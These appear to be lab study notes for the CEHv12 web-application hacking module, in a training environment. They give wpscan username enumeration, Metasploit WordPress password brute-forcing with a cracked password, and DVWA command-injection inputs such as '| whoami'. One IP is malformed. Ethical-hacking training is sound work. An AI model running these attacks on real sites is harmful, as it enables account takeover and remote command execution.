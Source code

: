 	[Win server 22]
	Launch wampserver
	
	[parrot]
	sudo su
	cd
	wpscan --api-token [API Token] --url http://10.10.1.22:8080/CEH --enumerate u
	--enumerate u: specifies the enumeration of usernames.
	
	Note:Here, we will use the API token that we obtained by registering with the https://wpscan.com/register website.
	Now that you have successfully obtained the usernames stored in the database, you need to find their passwords.
	
	To obtain the passwords, you will use the auxiliary module called wordpress_login_enum (in msfconsole) to perform a dictionary attack using the password.txt file 
	(in the Wordlist folder) which you copied to the location /home/attacker/Desktop/CEHv12 Module 14 Hacking Web Applications.
	
	service postgresql start -> first start the PostgreSQL service.
	msfconsole
	use auxiliary/scanner/http/wordpress_login_enum 
	show options
	set PASS_FILE /home/attacker/Desktop/CEHv12 Module 14 Hacking Web Applications/Wordlist/password.txt 
	set RHOSTS 10.10.1.22
	set RPORT 8080
	set TARGETURI http://10.10.1.22:8080/CEH 
	set USERNAME admin -> take any username obtained from above
	run
	
	 the cracked password is qwerty@123
	
	 http://10.10.1.2022:8080/CEH/wp-login.php -> login with found credentials

---
## Task 7: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server

In this task, we will perform command-line execution on a vulnerability found in DVWA. Here, you will learn how to extract information about a target machine, create a user account, assign administrative privileges to the created account, and use that account to log in to the target machine.

	[Win 11]
	http://10.10.1.22:8080/dvwa/login.php
	gordonb/abc123
	
	Command Injection
	Ping a device - 10.10.1.22 -> successfully pings the target machine
	
	| hostname -> error
	Set security level to low
	
	| hostname 			-> return machine name   -> This infers that the command execution field is vulnerable and that you can remotely execute commands.
	| whoami
	| tasklist 			-> to view the processes running on the machine.
	